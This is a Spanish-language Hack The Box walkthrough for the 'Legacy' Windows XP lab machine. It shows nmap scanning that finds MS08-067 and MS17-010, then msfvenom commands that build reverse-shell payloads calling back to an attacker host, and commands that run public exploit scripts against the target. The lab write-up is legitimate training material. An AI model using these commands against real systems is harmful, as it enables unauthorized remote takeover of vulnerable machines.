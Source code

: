 # Legacy ![Avatar](https://www.hackthebox.eu/storage/avatars/60dc190c4c015cfe3a3aef9b5afca254_thumb.png)     

## Initial Scan

```nmap
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m50s, deviation: 2h07m16s, median: 4d22h57m50s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:57:05 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-08-02T21:04:14+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```
## Enumeration

Busquemos vulnerabilidades asociadas a los puertos abiertos
```bash
sudo nmap -p 445 --script vuln 10.10.10.4
```
```
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|_smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

## Exploit

### MS17-010

Utilizaremos el script de send_and_execute de este repositorio
```web
https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
```
Generamos una reverse shell para windows en formato ejecutable
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f exe -a x86 — platform windows -o rev_shell.exe
```
Ejecutamos el script mencionado arriba
```bash
python2.7 send_and_execute.py 10.10.10.4 rev_shell.exe
```
### MS08-67

Utilizaremos el siguiente script para la explotación
```
https://github.com/andyacer/ms08_067
```
Generamos el payload necesario para la reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
Sustituimos este en la parte correspondiente del exploit`y lo lanzamos
```
python ms08_067_2018.py 10.10.10.4 6 445
```
Y ya estaría
